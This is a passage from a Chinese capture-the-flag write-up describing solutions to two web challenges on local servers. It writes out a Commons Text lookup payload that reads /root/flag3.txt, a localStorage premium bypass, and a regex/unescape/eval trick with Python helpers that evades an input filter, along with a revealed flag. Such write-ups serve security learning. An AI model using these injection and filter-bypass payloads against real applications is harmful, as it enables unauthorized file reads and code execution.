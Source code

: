 因为元素是 input 标签，换行会被删掉，可以直接看 HTML。

用同样的方法分别 POST <http://localhost:8080/bonus> 和
<http://localhost:8080/source_bak> 可以得到 flag2 和 bonus 的源代码。

bonus 源代码提示 flag3 在 /root/flag3.txt。当 POST body 的 type 为 CommonsText
时会执行替换，还禁用了几个前缀。阅读
[文档](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/lookup/StringLookupFactory.html)
可知 file 还能用，审查元素改 type，value 填 `${file:UTF-8:/root/flag3.txt}`
就能得到 flag3。

## 这也能卷

有 index 和 premium 两个页面，premium.js 很长还混淆过，而且一直弹 debugger，用
<https://deobfuscate.io/> 处理了还是不能读。这时查找了一下发现代码里有 flag0，
在控制台执行一下就出来了。回去读 main.js，原来 premium 判断是读 localStorage
的，预期解应该也是这个。

```javascript
localStorage.setItem('i_am_premium_user', 'true')
```

进入高级版后可以向 Node.js 和 浏览器发请求了。index.js 限制了请求需要匹配
`'^([a-z0-9+\\-*/%(), ]|([0-9]+[.])+[0-9]+)+$'`。大写不能用，操作符也只剩几个。`.`
和 `[]` 都不能用，没法访问属性，引号全军覆没。

直接发 `flag` 会返回 `no geek, no flag`。以为实际的代码做了替换于是一顿操作，
结果都不行。

先搜刮一下武器，主要有
[Window](https://developer.mozilla.org/en-US/docs/Web/API/Window) 和 Math
里的东西。看了 <https://hepunx.rl.ac.uk/~adye/jsspec11/builtin.htm> 发现除了 eval
还有 unescape 可以用，
[Operator](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Expressions_and_Operators)
则基本派不上用场。看到
[这个回答](https://stackoverflow.com/a/22939963)
，发现可以用正则表达式传字符串，唯一的问题是转成字符串之后首尾会多一个斜杠。我们可以模仿
SQL 注入，将正则表达式的内容写成 `1/; <expression>/` 的形式。这样开头会组成合法表达式
`/1/`，结尾则是变成注释，最终 eval 返回我们要的表达式的值。正则表达式的内容
URL encode 一次，这样就不受任何限制了。下面给一个例子方便理解

```javascript
encodeURIComponent('1/; flag/')
// '1%2F%3B%20flag%2F'
unescape(/1%2F%3B%20flag%2F/)
// '/1/; flag//'
eval('/1/; flag//')
// Uncaught ReferenceError: flag is not defined
```

过程中发现 flag 变量的值真的就是 `no geek, no flag`，需要读 HTML 的内容得到 flag2。

```python
def f(s):
    return ''.join('%' + hex(c)[2:] for c in s)

def g(s):
    return 'eval(unescape(/' + f('1/; ' + s + '/') + '/))'

g('1/; flag/')
# {"result":"no geek, no flag"}
g('1/; eval("fl"+"ag")/')
# {"result":"no geek, no flag"}
g('document.querySelector("script").innerHTML')
# {"result":"\n    const flag = (() => {\n      const FLAG = `flag{reg3x_byp4ss_made_easy}`\n      return 'no geek, no flag'\n    })()\n  "}
```
